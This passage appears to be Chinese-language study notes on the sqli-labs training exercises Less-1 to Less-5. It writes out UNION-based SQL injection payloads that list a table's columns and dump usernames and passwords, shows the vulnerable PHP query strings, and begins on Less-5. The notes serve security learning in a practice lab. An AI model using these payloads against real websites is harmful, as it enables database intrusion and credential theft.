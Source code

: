   

### shoot

  

查询表内列名：

  

`?id=-1' UNION SELECT 1, GROUP_CONCAT(column_name), 3 FROM information_schema.columns WHERE table_name='users' --+`

  
  

得到列名之后进一步 查询id, 用户及其密码：

  
  

`?id=-1' UNION SELECT 1, GROUP_CONCAT(id, username, password), 3 FROM users --+`

  

所以基本的SQL注入语句就是上述几种。对于 Less-1， Less-2完全够用了。Less-1和Less-2~4的去捏也只是 SQL 执行语句对于 $id 的闭合方式的不同。

  

- Less-1： $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

  

- Less-2： $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";

  

...

  
  

在Less-2的这种情况下就不用加 `'`进行闭合。

  

不过除了引号闭合，还有其他的符号，在后面的Less就会出现。

不想重复该过程所以可以考虑写脚本进行。

  

<hr>

  
  

简单理解，information_schema是一个MySQL创建的信息数据库，保存着MySQL服务维护的所有的其他数据库的信息，但只读，不支持其他操作。

[information_schema是什么](https://zhuanlan.zhihu.com/p/88342863)

  

# Less-5

  

SQL语句和Less-1一致，但是在回显这里有不同：

  

```php

if($row)

    {

    echo '<font size="5" color="#FFFF00">';

    echo 'You are in...........';

    echo "<br>";

        echo "</font>";

```